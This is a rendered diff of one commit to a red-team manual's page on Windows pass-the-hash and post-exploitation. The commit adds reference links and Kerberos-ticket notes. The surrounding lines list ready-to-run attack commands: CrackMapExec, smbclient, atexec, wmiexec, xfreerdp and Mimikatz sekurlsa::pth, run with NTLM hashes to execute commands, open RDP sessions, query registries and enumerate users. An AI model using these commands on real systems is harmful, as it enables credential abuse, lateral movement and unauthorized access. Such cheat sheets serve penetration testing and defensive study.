

Before and after one commit to 0x72303074/Red-Team-Manual, a Markdown page: 3. Privesc & Post-Exploit/4a. Windows Specifics.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/3. Privesc & Post-Exploit/4a. Windows Specifics.md
+++ b/3. Privesc & Post-Exploit/4a. Windows Specifics.md
@@ -30,6 +30,7 @@
             *CrackMapExec:  crackmapexec smb 10.0.0.20 -u user -H BD1C6503987F8FF006296118F359FA79 -d domain.local [-x ipconfig]  \\  sudo crackmapexec ldap 10.11.1.120/29 -u daisy -H f6084ca1a4905c45747d4bdcc1fcab84
             SMBClient:  smbclient //10.0.0.30/Finance -U user --pw-nt-hash BD1C6503987F8FF006296118F359FA79 -W domain.local  \\  python smbclient.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105  \\  pth-smbclient -U ignite/Administrator%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 //192.168.1.105/c$
             ATExec:  python3 atexec.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 Administrator@192.168.1.105 cmd.exe
+            Mount the Share: generate Kerberos ticket first (https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/)
         Port 3389 (Windows 2012 R2, 8.1): Restricted Admin Mode needs to be enabled (https://edermi.github.io/post/2018/native_rdp_pass_the_hash/)
             xfreerdp /u:offsec /d:win2012 /pth:2892d26cdf84d7a70e2eb3b9f05c425e /v:192.168.2.102
             Mimikatz/Mstsc:  sekurlsa::pth /user:<user name> /domain:<domain name> /ntlm:<the user's ntlm hash> /run:"mstsc.exe /restrictedadmin"
@@ -44,6 +45,10 @@
             Powershell:  Invoke-WMIExec -Target 192.168.1.105 -Domain ignite -Username Administrator -Hash 32196B56FFE6F45E294117B91A83BF38 -Command "cmd /c mkdir c:\hacked" -Verbose
             CMD:  wmiexec.exe -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105
     Other PTH Techniques:
+        LDAP:  https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/
+        Generate Kerberos Ticket > follow-on attacks - https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/
+            -Mount SMB Share
+            -Use Kerberos ticket to SSH to Linux box
         Read/Modify Registry:
             python3 reg.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105 query -keyName HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows -s
         Enum Users:  python3 lookupsid.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105  \\  python3 samrdump.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105
```
